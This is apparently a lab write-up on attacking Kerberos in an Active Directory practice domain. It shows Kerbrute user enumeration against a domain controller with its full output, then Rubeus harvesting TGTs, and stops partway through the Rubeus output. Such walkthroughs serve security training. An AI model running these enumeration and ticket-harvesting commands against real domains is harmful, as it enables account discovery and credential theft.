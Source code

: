 ## Kerbrute Installation

- Download a precompiled binary for your OS - [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)
- Rename `kerbrute_linux_amd64` to `kerbrute`
- `chmod +x kerbrute` to make kerbrute executable

## Enumerating users w/ Kerbrute
Enumerating users allow you to know which user accounts are on the target domain adn which accounts could potentially be used to access the network.

- Download the wordlist from [https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt) 

We will try to enumerate users from a domain controller using a supplied wordlist

```
$ ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.locl Users.txt

2022/09/12 11:18:08 >  Using KDC(s):
2022/09/12 11:18:08 >   CONTROLLER.local:88

2022/09/12 11:18:09 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
2022/09/12 11:18:09 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
2022/09/12 11:18:09 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
2022/09/12 11:18:09 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
2022/09/12 11:18:09 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
2022/09/12 11:18:09 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
2022/09/12 11:18:09 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
2022/09/12 11:18:09 >  [+] VALID USERNAME:       user1@CONTROLLER.local
2022/09/12 11:18:09 >  [+] VALID USERNAME:       user3@CONTROLLER.local
2022/09/12 11:18:09 >  [+] VALID USERNAME:       user2@CONTROLLER.local
```

# Harvesting & Brute-Forcing Tickets w/ Rubeus
Rubeus is a powerful tool for attacking Kerberos. Rubeus is an adaptation of the kekeo tool and developed by HarmJ0y the very well known active directory guru. It can be used for a variety of attacks such as bruteforcing password, password spraying, overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting and Kerberoasting.

- [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus) 

Rubeus is already compiled and on the target machine. We have only to log into it through SSH or RDP.

This command tells Rubeus to harvest for TGTs every 30 seconds. The `harvest` action periodically extract all TGTs every `/interval:X` seconds, extract any new TGT KRB-CRED files, and keeps a cache of any extracted TGTs. 

```
C:\Users\Administrator\Downloads> Rubeus.exe harvest /interval:30

[*] Action: TGT Harvesting (with auto-renewal) 
[*] Monitoring every 30 seconds for new TGTs          
[*] Displaying the working TGT cache every 30 seconds 


[*] Refreshing TGT ticket cache (9/12/2022 2:39:30 AM) 

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL                                                
  StartTime             :  9/12/2022 2:36:41 AM                                                          
```